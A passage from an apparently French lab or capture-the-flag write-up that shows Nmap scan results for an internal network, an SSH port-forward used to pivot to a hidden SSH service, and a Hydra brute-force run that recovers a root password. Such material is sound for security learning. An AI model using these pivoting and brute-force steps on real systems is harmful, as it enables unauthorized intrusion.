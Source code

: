 ```
Nmap scan report for 172.31.20.1
Host is up (0.00053s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
443/tcp   open  https
8008/tcp  open  unknown
8111/tcp  open  unknown
8112/tcp  open  unknown
8115/tcp  open  unknown
10000/tcp open  webmin
20000/tcp open  unknown

Nmap scan report for db1srv.net20 (172.31.20.10)
Host is up (0.0013s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql

Nmap scan report for utah.net20 (172.31.20.44)
Host is up (0.0013s latency).
All 65535 scanned ports on utah.net20 (172.31.20.44) are closed

Nmap scan report for africa.net20 (172.31.20.194)
Host is up (0.00048s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
24/tcp open  unknown
```

Une connexion à ce port 24 à l'aide de Netcat révèle qu'il s'agit d'un serveur SSH. On va utiliser un premier pivot pour y accéder :  

```console
$ ssh -N -L 2424:172.31.20.194:24 -p 8888 127.0.0.1
```

Ici j'utilise le tunnel SSH existant avec la première machine pour forwarder en local un port sur la seconde machine.  

J'ai rajouté les identifiants de base de données et autres dumps SQL à ma liste d'utilisateurs et passwords potentiels. Je passe le tout à Hydra :  

```console
 $ ./hydra -e nsr -L /tmp/users.txt -P /tmp/pass.txt ssh://127.0.0.1:2424/
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 153 login tries (l:9/p:17), ~10 tries per task
[DATA] attacking ssh://127.0.0.1:2424/
[2424][ssh] host: 127.0.0.1   login: root   password: anchor
1 of 1 target successfully completed, 1 valid password found
```
